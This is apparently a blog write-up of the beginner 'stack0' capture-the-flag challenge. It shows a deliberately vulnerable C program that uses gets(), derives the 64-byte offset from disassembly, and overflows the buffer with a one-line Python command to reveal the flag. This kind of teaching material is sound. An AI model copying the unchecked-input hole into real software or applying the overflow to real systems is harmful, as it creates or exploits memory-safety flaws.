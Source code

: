 ```yaml
---
title:  "Writeup: stack0"
date:   2019-03-26 09:00:00
categories: writeup 
layout: post
author: Tim Winters
---
```


The problem is this challenge is a simple one. `modified` is set to `0`, yet is checked on line 15 to be something else. A standard buffer overflow.


```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  FILE *fp;

  modified = 0;
  gets(buffer);
  fp  = fopen("./flag.txt", "r");

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
      fgets(buffer, 64, (FILE*)fp);
      printf("flag: %s\n", buffer );
  } else {
      printf("Try again?\n");
  }
}
```

The vulnerability is with `gets`, which reads input from standard in, but does no bounds checking. We can use this to write past the memory region allocated to `buffer`, and overwrite the value of `modified`. To determine how many bytes we need to write we must look at this disassembly code. 

<pre>
   0x080484eb <+0>:		lea    ecx,[esp+0x4]
   0x080484ef <+4>:		and    esp,0xfffffff0
   0x080484f2 <+7>:		push   DWORD PTR [ecx-0x4]
   0x080484f5 <+10>:	push   ebp
   0x080484f6 <+11>:	mov    ebp,esp
   0x080484f8 <+13>:	push   ecx
   0x080484f9 <+14>:	sub    esp,0x54
   0x080484fc <+17>:	mov    DWORD PTR [ebp-0x10],0x0
   0x08048503 <+24>:	sub    esp,0xc
   <font color="red">0x08048506 <+27>:	  lea    eax,[ebp-0x50]</font>
   0x08048509 <+30>:	push   eax
   0x0804850a <+31>:	call   0x8048390 &ltgets@plt&gt
</pre>

Calling conventions for Intel x86 say that any arguments will be pushed on the stack. Before the call to `gets` at `main + 31`, the address `epb-0x50` is loaded into `eax` and then pushed onto the stack. Therefore we know that `buffer` starts at address `ebp-0x50`, but I'll use `0x50` for the rest of this guide. 

Now that we know where the buffer is, we need the address of `modified`. Examining the assembly code further

<pre>
   0x0804850f <+36>:	add    esp,0x10
   0x08048512 <+39>:	sub    esp,0x8
   0x08048515 <+42>:	push   0x8048610
   0x0804851a <+47>:	push   0x8048612
   0x0804851f <+52>:	call   0x80483d0 <fopen@plt>
   0x08048524 <+57>:	add    esp,0x10
   0x08048527 <+60>:	mov    DWORD PTR [ebp-0xc],eax
   <font color="red">0x0804852a <+63>:	  mov    eax,DWORD PTR [ebp-0x10]</font>
   0x0804852d <+66>:	test   eax,eax
   0x0804852f <+68>:	je     0x804856b <main+128>
</pre>

Here we see that `ebp - 0x10` (`0x10`) is put into `eax`, then checked to see if it is non-zero through the `test` instruction. More info on that [here](https://reverseengineering.stackexchange.com/questions/19235/purpose-of-test-eax-eax-after-a-strcmp). This must be our `modified` variable. 

Some quick math of `0x50 - 0x10` = `0x40` = `64`. Therefore, we need 64 bytes of data before we start overwriting the `modified` variable. Becaue it need only be non-zero, just writing one byte will work. 

```
> python -c 'print "a"*65' | ./stack0

you have change the 'modified' variable
flag: 3ecc94ee2ad17bf3a32757d1900948bc
```
